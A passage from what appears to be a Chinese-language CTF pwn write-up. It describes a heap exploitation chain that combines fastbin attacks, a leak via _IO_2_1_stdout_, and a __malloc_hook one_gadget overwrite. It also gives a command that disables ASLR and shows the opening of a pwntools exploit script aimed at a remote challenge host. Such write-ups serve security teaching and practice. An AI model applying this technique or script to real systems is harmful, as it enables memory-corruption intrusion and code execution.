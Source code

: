 通过堆溢出和unsoted bin split分割堆块到fastbin 中, partial write写入fastbin fd为IO_2_1_stdout符合fastbin size域的地址, ,然后通过fastbin attack打入该地址,修改IO_2_1_stdout的flag,还有IO_File_end指针,泄漏出libc,再次通过fastbin attack 打入 malloc_hook - 0x23处,通过 malloc_hook来实现Onegaget,realloc_hook调整execve第二个参数, 打通的几率为 1 /16



## 利用

### 准备

先关一下随机化,方便本地调试

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

exp准备

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
# Author: I0gan

from pwn import *
context(arch = 'amd64', os = 'linux', log_level='debug')

exeFile  = "pwn"
libFile  = "./libc.so.6"
#libFile  = "/lib/x86_64-linux-gnu/libc.so.6"

remoteIp = "39.97.119.22"
remotePort = 10003

LOCAL = 1
LIB   = 1

r   =  lambda x : io.recv(x)
ra  =  lambda   : io.recvall()
rl  =  lambda   : io.recvline(keepends = True)
ru  =  lambda x : io.recvuntil(x, drop = True)
sl  =  lambda x : io.sendline(x)
sa  =  lambda x, y : io.sendafter(x, y)
sla =  lambda x, y : io.sendlineafter(x, y)
ia  =  lambda : io.interactive()
c   =  lambda : io.close()
li    = lambda x : log.info(x)
db    = lambda   : gdb.attach(io)

#--------------------------Func-----------------------------
def ad(size, data):
	sla('^_^:\n', str(1))
	sla('?_?', str(size))
	sa(':>', data)

def rm(idx):
	sla('^_^:\n', str(2))
	sla('~_~', str(idx))

```
